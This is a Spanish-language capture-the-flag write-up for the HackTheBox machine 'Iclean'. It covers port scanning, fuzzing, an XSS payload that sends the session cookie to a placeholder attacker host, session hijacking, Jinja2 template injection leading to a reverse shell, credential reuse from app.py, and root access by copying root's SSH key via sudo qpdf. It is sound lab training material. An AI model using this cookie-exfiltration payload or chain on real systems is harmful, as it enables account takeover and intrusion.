

Iclean
- Realizo un escaneo de puertos nmap 10.10.11.12 -sS -T4 -A -p- -oN scan.txt
- Encuentro los servicios ssh(22) y http(80)
- Añado el Domain name a mi lista de /etc/hosts
- Uso ffuf para encontrar endpoints interesantes ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://capiclean.htb/FUZZ -fc 404
- A través de http://capiclean.htb/quote puede que me deje ejecutar un XSS.
- Intercepto la respuesta con Burpsuite
- Veo que el parametro service es vulnerable a XSS
- Uso este código dentro de service para obtener la cookie <img src=x onerror=fetch("http://<IP>:<PORT>/"+document.cookie);>
- Para que lo pille bien tendré que codificarlo en base64
- Al introducirlo obtengo la cookie "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZkpGCg.Uxy5EDul_e-QG6dvNx-kwNyhzBo HTTP/1.1"
- Probablemente tengamos que usar esta cookie para bypassear un login
- Al no encontrar donde añadir la cookie lo hago a través de la extensión cookie editor
- Luego si la añadimos podremos acceder al dashboard como administrador http://capiclean.htb/dashboard
- Generamos un invoice ID
- Y en generar el QR introducimos ese ID
- Después de crearlo me da un enlace
- Pongo el link del QR y me da una factura
- Intercepto la solicitud POST al darle al botón submit

- Creo que /QRGenerator es vulnerable a SSTI por que usa Flask, al ser un marco de trabajo que utiliza Jinja como motor de plantillas, es vulnerable a este tipo de ataques si no se maneja correctamente
- Me devuelve el código 49 por lo que si que es vulnerable a SSTI.
- Uso este SSTI https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------
- La parte del payload para obtener el reverse la codifico en url encoded y obtengo el reverse en mi netcat como www-data
- Después de hacer un poco de footprint encuentro que app.py leekea las credenciales de la db
- Me conectro a mysql mysql -u <user> -p <password>
- Encuentro los hashes de consuela y de Administrator. El hash que me interesa el el de consuela ya que en home es el unico usuario que encontramos. Probablemente sea el usuario que usaremos para escalar privilegios.
- El hash lo crackeo en crackstation y accedo a este usuario a través de ssh
- Ejecuto sudo -l y veo que puedo ejecutar el comando /usr/bin/qpdf como root
- Con el comando puedo copiar el archivo id_rsa de root en mi carpeta tmp
- Accedo a través de ssh con el usuario root. Si no me deja coger el id_rsa hay que cambiarle los privilegios al archivo.